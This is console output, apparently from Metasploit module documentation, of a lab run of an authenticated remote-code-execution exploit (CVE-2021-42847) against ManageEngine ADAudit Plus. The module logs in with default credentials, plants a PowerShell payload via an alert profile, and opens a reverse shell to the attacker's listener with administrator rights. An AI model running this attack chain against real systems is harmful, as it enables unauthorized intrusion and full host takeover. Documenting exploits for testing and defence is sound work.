 ```
   RHOSTS       192.168.204.136             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.204.128  yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias DAFOREST.
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/akbgtwuva.ps1
[+] Successfully wrote the payload to /alert_scripts/akbgtwuva.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile VA8dDG52p5
[*] Attempting to trigger the payload via an authentication attempt for domain DAFOREST using incorrect credentials.
[*] Received expected reply when trying to trigger the payload. Let's hope we get a shell...
[!] Make sure to manually cleanup the akbgtwuva.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 2 opened (192.168.204.128:4444 -> 192.168.204.136:53465) at 2023-05-08 12:01:55 -0500
[*] Powershell session session 1 opened (192.168.204.128:4444 -> 192.168.204.136:53464) at 2023-05-08 12:01:55 -0500
[*] Attempting to delete alert profile VA8dDG52p5
[+] Successfully deleted alert profile VA8dDG52p5

PS C:\Program Files\ManageEngine\ADAudit Plus\bin> whoami
daforest\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin> pwd

Path                                          
```